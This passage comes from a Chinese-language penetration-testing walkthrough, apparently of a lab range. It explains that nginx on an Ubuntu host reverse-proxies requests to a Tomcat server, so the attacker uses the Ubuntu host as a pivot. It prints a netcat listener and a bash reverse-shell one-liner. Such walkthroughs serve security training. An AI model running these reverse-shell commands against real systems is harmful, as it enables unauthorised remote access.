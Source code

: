 [![](assets/1708094050-b77ee26cee45f20168c465463ee787a5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144716-75ce6cfa-0fff-1.png)  
发现了 nginx 反向代理的标志 proxy\_pass。ubuntu 18（192.168.52.10）服务器上的 nginx 将 80 端口收到的请求转发给了 [http://192.168.52.20:8080，将](http://192.168.52.20:8080，将) 81 端口收到的请求转发给了 [http://192.168.52.20:8000。](http://192.168.52.20:8000。)  
所以 80 端口的 shell 反弹不到攻击机，只能使用 ubuntu18 (web1)（192.168.52.10）做为跳板机，先将 tomcat 的 shell（192.168.52.20）反弹到 ubuntu (web1)

```plain
nc -lvp 1234
bash -c "bash -i >& /dev/tcp/192.168.52.10/1234 0>&1"   # 反弹 shell
```

[![](assets/1708094050-065a3be0a0fb9a5eae09a40f72250e9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144728-7d2dfaba-0fff-1.png)

[![](assets/1708094050-0127b5c5bb6344ac1ef0c8b4f6e14480.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144734-806bfede-0fff-1.png)
